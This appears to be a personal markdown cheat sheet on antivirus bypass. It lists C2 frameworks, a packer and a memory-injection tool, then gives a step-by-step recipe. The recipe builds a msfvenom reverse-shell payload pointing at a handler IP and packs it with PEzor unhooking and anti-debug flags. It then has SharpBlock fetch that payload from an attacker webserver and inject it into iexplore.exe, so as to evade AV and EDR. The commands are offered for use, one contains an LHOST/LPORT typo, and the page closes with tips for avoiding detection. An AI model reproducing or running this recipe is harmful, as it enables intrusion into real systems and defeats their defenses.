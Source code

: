 # AV Bypass

## Practical 

### C2

- [Covenant](https://github.com/cobbr/Covenant) (favorite so far)
- [Cobalt Strike](https://www.cobaltstrike.com/) (not free :/)
- Metasploit (Without meterpreter ^^)

### Packer
- [PEzor](https://github.com/phra/PEzor)

### Memory injection
- [SharpBlock](https://github.com/CCob/SharpBlock)
	- inject shellcode directly into memory 
	- bypass ETW and Process Hollowing detection
	- Bypass specific AV and ERD dll 

---

### Full PoC (Auto)

Winning combo : SharpBlock + PEzor (bypass Kasp for the moment..)

1. Compile SharpBlock from source (using VStudio). It generates a file : SharpBlock.exe
2. Generate shellcode in raw format (here is an exemple for msf) : 

  ```sh
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<HANDLER_IP> LHOST=<HANDLER_PORT> -f raw -o <SHELLCODE_NAME>.bin
  ```
3. Repack shellcode
  ```sh
  ./PEzor.sh -unhook -antidebug -text -sgn -sleep=150 <SHELLCODE_NAME>.bin
  ```
4. Repack SharpBlock adding arguments
  - HTTP webserver version :
  ```sh
  ./PEzor.sh -unhook -antidebug -text -rx -sleep=150 <SharpBlock.exe> -p '-e http://<IP_WEBSERVER>/<SHELLCODE_NAME>.bin.packed.exe -s "c:\program files\internet explorer\iexplore.exe"'
  ```
  - Local version :
  ```sh
  ./PEzor.sh -unhook -antidebug -text -rx -sleep=150 SharpBlock.exe -p '-e <SHELLCODE_NAME>.bin.packed.exe -s "c:\program files\internet explorer\iexplore.exe"'
  ```
5. Setup your launcher (and webserver), and execute the packed binary file from the target
6. Be patient (around 5minn depending on the sleep argument set), get your shell and enjoy

> SharpBlock can load a shellcode from a webserver, or locally. To get rid of the webserver, you can directly drop the two binaries to the target (packed SharpBlock and packed shellcode) but do not execute the packed shellcode directly or you might get caught by the AV. You only need to execute the packed SharpBlock binary (which will inject the packed shellcode directly into memory).

---